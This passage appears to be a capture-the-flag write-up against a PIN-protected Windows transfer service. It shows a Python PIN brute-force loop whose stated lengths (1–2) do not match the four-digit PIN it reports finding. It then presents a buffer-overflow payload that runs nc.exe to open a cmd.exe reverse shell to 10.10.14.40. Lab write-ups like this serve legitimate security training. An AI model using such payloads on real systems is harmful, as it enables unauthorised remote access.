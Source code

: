 ```
```
Started to look for memory corruption vulnerabilites like a BoF but nothing, so I write a quick BF script in python.

```python
from itertools import product

chars = '0123456789' # chars to look for

for length in range(1, 3): # only do lengths of 1 + 2
    to_attempt = product(chars, repeat=length)
    for attempt in to_attempt:
        print(''.join(attempt))
```

and it instantly returns a success at `0021`

```
Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] .........
 [!] You waited too long, disconnecting client....
```
It timed out if I wait too long. 
I began to add more and more char to the input until I notice that the output starts to become overwritten.

Now we know there is a BoF.

You have to be careful here because you can easily crash the service and have to start again from stage one as I've done this once.

I finally craft a payload that enables me to overwrite the area in memory where `transfer.exe` is called and execute a system command that will give us our `root` reverse bind shell.

```
#dgdasgadsghsdkjghsdjhgfsadhgsadhC:\windows\system32\spool\drivers\color\nc.exe 10.10.14.40 6962 -e cmd.exe
```



### Actions on Objective
Flags exfiltrated.
